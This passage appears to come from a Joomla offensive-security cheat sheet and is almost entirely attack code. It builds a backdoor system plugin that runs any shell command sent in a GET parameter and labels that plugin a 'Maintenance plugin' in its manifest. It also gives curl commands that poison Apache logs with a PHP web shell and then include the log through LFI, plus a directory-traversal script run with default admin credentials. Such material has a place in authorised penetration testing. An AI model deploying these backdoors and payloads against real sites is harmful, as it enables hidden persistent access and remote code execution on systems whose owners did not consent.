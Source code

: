 ### Extension Installation for Persistence

#### Malicious Extension Creation
```php
# Create malicious plugin structure
mkdir -p backdoor_plugin/backdoor
cat > backdoor_plugin/backdoor/backdoor.php << 'EOF'
<?php
defined('_JEXEC') or die;

class plgSystemBackdoor extends JPlugin {
    public function onAfterRoute() {
        if (isset($_GET['backdoor_cmd'])) {
            echo '<pre>' . shell_exec($_GET['backdoor_cmd']) . '</pre>';
            exit();
        }
    }
}
EOF

# Create plugin manifest
cat > backdoor_plugin/backdoor.xml << 'EOF'
<?xml version="1.0" encoding="utf-8"?>
<extension version="3.0" type="plugin" group="system" method="upgrade">
    <name>System - Backdoor</name>
    <version>1.0.0</version>
    <description>Maintenance plugin</description>
    <files>
        <filename plugin="backdoor">backdoor.php</filename>
    </files>
</extension>
EOF

# Package and install via admin panel
zip -r backdoor_plugin.zip backdoor_plugin/
# Upload via Extensions → Manage → Install
```

### Log Poisoning and Analysis

#### Apache Log Poisoning
```bash
# Poison User-Agent in access logs
curl -H "User-Agent: <?php system(\$_GET['cmd']); ?>" http://target.com/

# Include logs via template injection or LFI
curl "http://target.com/templates/protostar/error.php?file=/var/log/apache2/access.log&cmd=id"
```

#### Log Location Discovery
```bash
# Common Joomla/Apache log locations
/var/log/apache2/access.log
/var/log/apache2/error.log
/var/log/nginx/access.log
/var/www/html/logs/error.php
/var/www/html/administrator/logs/error.php

# Extract via directory traversal
python3 joomla_dir_trav.py --url "http://target.com/administrator/" \
  --username admin --password admin --dir /var/log/apache2/access.log
```

---